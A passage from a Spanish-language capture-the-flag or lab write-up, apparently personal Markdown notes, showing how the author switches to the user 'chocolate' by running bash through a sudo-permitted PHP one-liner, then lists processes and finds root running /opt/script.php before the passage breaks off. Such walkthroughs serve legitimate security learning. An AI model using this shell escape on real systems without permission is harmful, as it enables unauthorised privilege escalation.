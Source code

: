vemos que podemos conseguir una shell como el usuario chocolate asi que vamos a probar

```bash
CMD="/bin/bash"
```

y despues 

```bash
sudo -u chocolate php -r "system('$CMD');"
```
![[20250803172837.png]](chocolate-images/20250803172837.png)

ahí ya tenemos acceso como chocolate ahora vamos a buscar la manera de llegar a root

vamos a utilizar ps para ver los procesos que están ejecutándose en el sistema 

```bash
ps -faux
```

![[20250803172953.png]](chocolate-images/20250803172953.png)

aqui vemos que root esta ejecutando /opt/script.php asi que vamos a ver quien tiene permisos sobre ese php
